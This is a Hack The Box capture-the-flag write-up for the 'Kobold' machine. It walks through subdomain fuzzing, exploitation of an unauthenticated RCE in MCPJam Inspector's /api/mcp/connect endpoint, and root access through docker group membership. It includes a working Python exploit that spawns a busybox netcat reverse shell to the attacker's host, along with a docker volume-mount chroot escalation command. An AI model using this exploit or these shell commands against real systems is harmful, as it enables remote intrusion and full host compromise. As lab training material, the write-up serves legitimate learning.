

# CTF Writeup — Kobold

## 📌 Overview

* Platform: Hack The Box
* Difficulty: Easy
* Objective: User flag / Root flag / Full compromise

Kobold is a Linux target exposing a web application (MCPJam Inspector) that is vulnerable to an unauthenticated remote code execution flaw. Initial access is gained by exploiting a known RCE vulnerability in MCPJam Inspector's `/api/mcp/connect` endpoint (CVE-2026-23744), which allows arbitrary command execution via crafted MCP server configuration parameters. Post-exploitation enumeration reveals docker group membership for the compromised user, which is leveraged to escalate to root through a container volume mount and chroot.

---

## 🔍 Enumeration

### 1. Initial Reconnaissance

An initial port scan was performed to identify open services on the target.

```bash
rustscan -a 10.129.75.154 -- -A
```

Results:

* Port 22 — SSH
* Port 80 — HTTP
* Port 443 — HTTPS
* Port 3552 — (additional service)

The presence of HTTP/HTTPS services indicated a web application as the most likely initial attack vector. The target hostname `kobold.htb` was added to `/etc/hosts` to enable proper virtual host resolution:

```bash
sudo nano /etc/hosts
10.129.75.154    kobold.htb
```

The root site on port 80/443 served a static page with no interactive functionality and no useful information in the page source.

---

### 2. Further Enumeration

**Directory fuzzing** was performed against the base site to identify hidden content:

```bash
ffuf -u "https://kobold.htb/FUZZ" -w /usr/share/wordlists/dirb/common.txt
```

Result:

```
index.html   [Status: 200, Size: 3812, Words: 992, Lines: 187, Duration: 204ms]
```

No additional directories of interest were discovered on the base vhost.

**Virtual host fuzzing** was then performed to identify subdomains not resolvable through standard directory enumeration:

```bash
ffuf -u "https://kobold.htb/" -H "Host: FUZZ.kobold.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 154
```

Results:

```
mcp   [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 407ms]
bin   [Status: 200, Size: 24402, Words: 1218, Lines: 386, Duration: 922ms]
```

Both discovered subdomains were added to `/etc/hosts`:

```bash
10.129.75.154    mcp.kobold.htb
10.129.75.154    bin.kobold.htb
```

The `mcp.kobold.htb` vhost was identified as an instance of **MCPJam Inspector**, an open-source testing, debugging, and evaluation platform for developers building Model Context Protocol (MCP) servers, MCP apps, and ChatGPT/Claude connectors (functionally comparable to Postman for AI context protocols). Project source: [github.com/MCPJam/inspector](https://github.com/MCPJam/inspector).

Interaction with the application was limited to:

* Authenticating to the platform
* Creating a server configuration
* Viewing configuration details, including:
  * MCPJam Inspector version: **v1.4.2**
  * Configured AI providers (only Ollama was configured, pointing to `http://127.0.0.1:11434/api`, which was editable)

Given the disclosed version number, the software was checked against known vulnerabilities.

---

## 💥 Exploitation

* Type: Remote Code Execution (RCE) — **CVE-2026-23744**
* Location: `/api/mcp/connect` endpoint of MCPJam Inspector v1.4.2 and earlier
* Impact: Unauthenticated arbitrary command execution on the host

**Vulnerability identification:**

A GitHub Security Advisory ([GHSA-232v-j27c-5pp6](http://github.com/advisories/GHSA-232v-j27c-5pp6)) confirmed that MCPJam Inspector versions 1.4.2 and earlier are vulnerable to RCE. The application binds its HTTP server to `0.0.0.0`, exposing its internal APIs beyond localhost:

```javascript
const server = serve({
  fetch: app.fetch,
  port: SERVER_PORT,
  hostname: "0.0.0.0",
});
```

The `/api/mcp/connect` endpoint, intended for connecting to MCP servers, extracts the `command` and `args` fields from the request body without validation and executes them directly, resulting in arbitrary command execution.

A public proof-of-concept was located at [github.com/suljov/CVE-2026-23744-Remote-Code-Execution-POC](https://github.com/suljov/CVE-2026-23744-Remote-Code-Execution-POC), which crafts a POST request instructing the server to spawn a reverse shell via `busybox nc`.

**Exploitation steps:**

A listener was started on the attacking host:

```bash
nc -lvnp 4444
```

A Python script (`kobold.py`) was created to send the malicious `serverConfig` payload to the `/connect` endpoint:

```python
import requests
import json

target = "https://mcp.kobold.htb/"
ip = "10.10.15.56"
port = "4444"

url = f'{target}/api/mcp/connect'

data = {
    "serverConfig": {
        "command": "busybox",
        "args": [
            "nc",
            f"{ip}",
            f"{port}",
            "-e",
            "/bin/bash"
        ],
        "env": {}
    },
    "serverId": "213j1l3jkljkl3j"
}

response = requests.post(url, json=data, verify=False)

print(response.status_code)
print(response.text)
```

Execution:

```bash
# Listener
nc -lnvp 4444

# Exploit
python3 kobold.py
```

A reverse shell was obtained as user `ben`:

```bash
whoami
ben
id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
pwd
/usr/local/lib/node_modules/@mcpjam/inspector
```

The user flag was retrieved:

```bash
ls /home
alice
ben
cat /home/ben/user.txt
[USER_FLAG]
```

Note: the initial shell was unstable and dropped after the MCP request timed out server-side (`MCP error -32001: Request timed out`, HTTP 500). The shell was upgraded to a stable PTY to survive this timeout:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🔓 Privilege Escalation

### Local Enumeration

Standard privilege escalation checks were performed on the compromised host.

Access to `/home/alice` was denied:

```bash
ls /home/alice
ls: cannot open directory '/home/alice': Permission denied
```

No exploitable cron jobs were found:

```bash
cat /etc/crontab
# nothing running
```

SUID binaries were enumerated but yielded nothing unusual:

```bash
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/mount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

LinPEAS was run for automated enumeration and flagged a high-risk root-owned, writable Unix socket, as well as an accessible group not shown by default in `id`:

```bash
  └─High risk: root-owned and writable Unix socket
/run/docker.sock
/run/lxd-installer.socket
/run/php/php8.3-fpm.sock

Actual Group Memberships via newgrp (T1069.001)
Accessible group not shown in id: docker (gid=111)
```

### Identified Vector

* Docker group membership (effectively equivalent to root access, as the `docker` group can create containers with host filesystem mounts)

The `docker` group membership was activated:

```bash
newgrp docker

id
uid=1001(ben) gid=111(docker) groups=111(docker),37(operator),1001(ben)
```

### Escalation

A privileged container was launched with the host root filesystem mounted, followed by a `chroot` into it to obtain a root shell on the host:

```bash
docker run -it --rm -v /:/mnt/host mysql chroot /mnt/host /bin/bash

root@e3e2e0d6c402:/# whoami
root
root@e3e2e0d6c402:/# cat /root/root.txt
[ROOT_FLAG]
```

---

## Attack Flow



---

## 🧠 Lessons Learned

* Virtual host fuzzing was essential here — the vulnerable application was only reachable via a subdomain (`mcp.kobold.htb`), not the base site, reinforcing the importance of always fuzzing vhosts in addition to directories.
* Disclosed software version numbers in application UIs are a direct lead for vulnerability research; checking GitHub Security Advisories for the exact version yielded an immediate, weaponized RCE.
* Applications that bind to `0.0.0.0` rather than `127.0.0.1` can unintentionally expose "internal-only" APIs to the network — a recurring real-world misconfiguration, especially in developer tooling not intended for production exposure.
* Reverse shells spawned indirectly (e.g., through an application's own request-handling logic) can be unstable and drop when the parent process times out; upgrading to a PTY early preserved access after the triggering request failed server-side.
* Docker group membership is functionally equivalent to root access on Linux hosts, since a container can be started with the host filesystem mounted and then `chroot`ed into. This is a common and high-impact privilege escalation path that should always be checked during enumeration.

---

## 🧩 Tools Used

* RustScan
* ffuf
* Docker
* Python3 (requests, pty)
* Netcat
* LinPEAS

---

## ⚠️ Notes

* Flags are intentionally omitted
* This writeup focuses on methodology and learning
* 
